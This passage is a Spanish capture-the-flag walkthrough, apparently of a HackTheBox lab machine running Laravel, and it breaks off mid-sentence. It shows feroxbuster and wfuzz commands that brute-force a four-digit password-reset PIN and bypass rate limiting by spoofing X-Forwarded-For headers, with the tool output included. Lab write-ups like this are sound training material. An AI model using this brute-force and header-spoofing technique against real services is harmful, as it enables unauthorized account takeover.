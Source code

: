 También laravel_sessionSe están configurando cookies, lo cual es una buena indicación de que el sitio es PHP y está construido en Laravel Framework.
Mostré un exploit de juggling tipo Laravel/PHP en el cuadro UHC anterior.
correrémos feroxbustercontra el sitio, e incluir -x php ya que sabemos que el sitio es PHP.

- feroxbuster -u http://10.10.11.159 -x php

sin obtener resultados favorables. asi que como el pin tiene solo cuatro dígitos, intentarémos hacer fuerza bruta con wfuzz. Tomaré las cookies de mi sesión
y las agregaré, tambien ocultare el codigo de salida --hh 5645.

- wfuzz -u http://10.10.11.159/api/resettoken -d "name=big0us&pin=FUZZ" -z range,0000-9999 -H "Cookie: XSRF-TOKEN=eyJpdiI6IlZ2R1BUc1JURkdYVWJMNktDeFIwZFE9PSIsInZhbHVlIjoiN3FCSkZ4OHdsZEFqRDc4eEZSbnluM2t2S2FNL1RXa2ZzV2s0OGFRYVBOSFp6clhYWnRpRUZXUTFHdSs0dE1JVm5YYm92Z2xKQUpxRzdlOUlvTU9YRDcySXdhMDZZNVYwQWlHd0hXTXByUDNTZjZMMFFobXJ6VGRvdFNVWTNmOUYiLCJtYWMiOiIxYmEwYWNmYjJhNjdiY2I2YzMzZDVmNWJiZTk2MDAxZGU4Y2U0ZDU3MGJhNGVmMThjN2FmNDllNDQwNTk3YTNkIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6Ilg0ckV2cEkzWFQwUmFLR0ZvRldPa2c9PSIsInZhbHVlIjoiWHdmOW1BVTlHTk11bEdJOGxhRVdZbjlKR25BbEo1S1ROSTNZYjFWblFuR0dnREl0WTIzRkE3WklzcUtNN2JjelQ3UytoazU5UmxoM0Zyc3ZxTW1ROS9vdzdMQXdQdVlSSUFUV0pPTTFBSmZaSS82RloxYkJUbWlCQ2lPaWJjMjUiLCJtYWMiOiJhMDJjNDkyMWVhYjc0MTI1ZTZmOTMxNTE2YTYzZWFjNjVjYzMwYzYwNTdiOTgyM2I5NjZjNmZiZWQ1OGM4OWRlIiwidGFnIjoiIn0%3D" --hh 5341,5645 -w ips  -H "X-Originating-IP: FUZ2Z"  -m zip

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000061:   429        36 L     125 W    6625 Ch     "0060"
000000063:   429        36 L     125 W    6625 Ch     "0062"
000000064:   429        36 L     125 W    6625 Ch     "0063"
000000062:   429        36 L     125 W    6625 Ch     "0061"
000000065:   429        36 L     125 W    6625 Ch     "0064"
000000066:   429        36 L     125 W    6625 Ch     "0065"

va muy lento asi que tendremos que habilitar la omision por limite de velocidad y evadir el bloqueo por bruteforce
creamos una lista con ipes 

- for i in {0..40}; do for j in {0..253}; do echo "10.10.$i.$j"; done; done > ipes

luego lanzamos:

- sudo wfuzz -c --hh=5644 -m zip -t 200 -z range,0000-9999 -w /home/kar/maquinas/altered/ipes -H "X-Forwarded-For: FUZ2Z" -d 'name=admin&pin=FUZZ' -H "Cookie: laravel_session=eyJpdiI6ImRLOHI5MGRGMkpWTVd4YUgveHY3NlE9PSIsInZhbHVlIjoid2UzVk4yQy8ybW40b0FXYTdRN3BhbWl2Zm1Uc0doZDJLcXdod3Fha0VMK0NyUkQ5alo0NWVWWnVzbjZReU9GcE5CY2ZUSVhBUlkyRmlGemNyWFNIUHJTZGdZZ0ZsVHFRY0EyNFN2UlQvV1BRc2FISHlLb2szbFozcG1DM3l0Y1MiLCJtYWMiOiIyOGFkZWJiMTU3ODI5MjM4MTlkMzVjMjUzOWRlMTQwMGE5MGRkYTkzNjlmNzJkYTdlY2VkNTdiYzEwZThlM2VkIiwidGFnIjoiIn0%3D; XSRF-TOKEN=eyJpdiI6InpyVlljaEM2VW5sRUhHZk5OZFgwRXc9PSIsInZhbHVlIjoiVms0clRENXNyd2tIQ3BZUnZJdHpHVGcxSThaUXFLZWxaclpvOTFMSTArVUpNMnNUdlNkbmJPSlpsMDJzamV0VDVYakY3L05acDhsOFphdzV5QUpqOXBDQlhVanNPN3ZSOVpDdnF4OXdtb3lRTi95V2toeEN6bEVmK0JSWUQzdm0iLCJtYWMiOiI5MDAyOTZhYjkzNDBkM2RiMzU3NThlZjk2Y2M4YjA0NjUzOGM3ZjYyNzI2M2RhM2U4N2ZjNzhiYzlhOTVmYmEzIiwidGFnIjoiIn0%3D"   http://10.10.11.159/api/resettoken

un minuto después tenemos devuelta una longitud diferente.
Cuando ingreso ese pin en /reset, muestra una nueva forma: 
